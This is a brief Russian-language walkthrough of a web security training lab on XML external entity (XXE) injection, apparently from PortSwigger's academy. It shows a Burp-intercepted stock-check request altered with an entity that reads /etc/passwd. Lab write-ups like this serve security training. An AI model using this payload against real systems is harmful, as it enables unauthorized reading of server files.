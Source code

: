  Lab: Exploiting XXE using external entities to retrieve files
 
 1) Переходим на сайт и выбираем товар
 
 ![](0000.jpg)
 
 2) Включаем Burp, кликаем на кнопку "Check stock" и перехватываем запрос берпом во вкладке Proxy -> HTTP history, отправляем его в Repeater
 
 ![](0001.png)
 
 3) Изменяем запрос, вставляем обращение к сущности - файлу, который нам нужно вытащить :
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId
 
 ![](0002.png)
 
 4) Получаем ответ:
 
 ![](0003.png)
 
 5) Видим, что лаба выполнена успешно
 
 ![](0004.png)
